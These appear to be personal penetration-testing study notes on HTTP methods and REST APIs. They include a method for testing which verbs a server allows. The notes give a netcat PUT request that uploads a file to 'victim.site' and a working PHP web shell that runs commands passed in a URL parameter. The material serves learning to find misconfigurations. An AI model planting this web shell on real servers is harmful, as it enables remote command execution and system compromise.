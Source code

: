 common methods:
- GET
	- to open webpage
		- /page.php at smt1
	- pass argumetns to the app
		- /page.php?course=somecoursephysics
- POST
	- submit html form data
	- POST parameters must be in message body
	- in body, username=john&password=mypass
- PUT
	- upload a file to server
	- Dangerous if allowed and misconfigured
	- in body,  "< PUT data>"
- HEAD
	- Similar to GET as asks just headers of the response
- DELETE
	- remove file form server
	- easily misused for DOS attacks
	- DELETE /path/to/destinationfolder  etc
- Options
	- query for enabled http methods
### Note:
Rest APIs
#RESTAPI 
- Representational State Transfer Application Programming Interface
- web app that relies strongly on HTTP Verbs
- often refered as web services or APIs
	- has subverted functionality (eg using PUT to save data not for saving files etc)
	- MUST double confirm that the PUT method found during pentest is not just a REST API's PUT method that simply creates new content (try look for the file after issuing a PUT request to confirm)
Using HTTP 1.0 instead of 1.1 you can skip sending Host: header

Methodology
#webmethodology
1. Send a Options message with netcat etc
2. Test the available verbs (eg DELETE /login.php returns a 200 OK means page is compromised)
```
nc victim.site 80
PUT /shell.php HTTP/1.0
Content-type: text/html
Content-length: 20
```
content Length can be found using wc -m shell.php 
-m : how long the content is in bytes

Upload PHP shell below with PUT  (place in the body of request, the /shell.php will be the name of the file created in / directory)
```php
<?php
if (isset($_GET['cmd']))
{
	$cmd = $_GET['cmd'];
	echo '<pre>';
	$result = shell_exec($cmd);
	echo $result;
	echo '</pre>';
}
?>
```
on the PHP site
run in browser:
victim.site/shell.php?cmd=command
shell.php -> name of file
?cmd = command ->sets the parameter for cmd 